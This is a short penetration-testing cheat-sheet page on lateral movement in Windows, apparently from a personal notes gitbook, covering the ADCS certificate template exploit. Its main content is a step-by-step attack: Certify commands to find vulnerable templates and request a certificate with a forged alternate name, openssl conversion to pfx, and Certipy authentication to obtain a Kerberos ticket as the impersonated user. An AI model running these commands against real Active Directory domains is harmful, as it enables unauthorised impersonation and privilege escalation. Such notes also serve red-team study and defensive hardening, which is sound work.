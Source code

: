 # Lateral Movement

## Windows

### ADCS

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation&#x20;

https://github.com/GhostPack/Certify&#x20;

https://github.com/dirkjanm/PKINITtools

#### Certificate Template Exploit

Certificate templates in ADCS (Active Directory Certificate Services) are pre-configured templates that define the parameters for a particular type of certificate that can be issued by the certificate authority (CA).

We can use [Certify.exe](https://github.com/GhostPack/Certify) to find vulnerable certificate template.

```powershell
.\Certify.exe find /vulnerable
```

Request a new certificate with the vulnerable template and try to impersonate.

```powershell
.\Certify.exe request /ca:<AD-CA_name> /template:<Template_name> /altname:<user_you_want_to_impersonate>
```

This will produce a `cert.pem`. Use `openssl` to convert it into `.pfx`.

```bash
# get cert.pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now ask the TGT using [Certipy](https://github.com/ly4k/Certipy).

```bash
└─$ certipy auth -pfx cert.pfx -dc-ip <DC_IP> -u '<user_you_want_to_impersonate>' -domain <domain_name>
```

> :bulb:You can find more information about this subject at links below:
>
> * [0xalwayslucky Gitbook](https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates)
> * [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
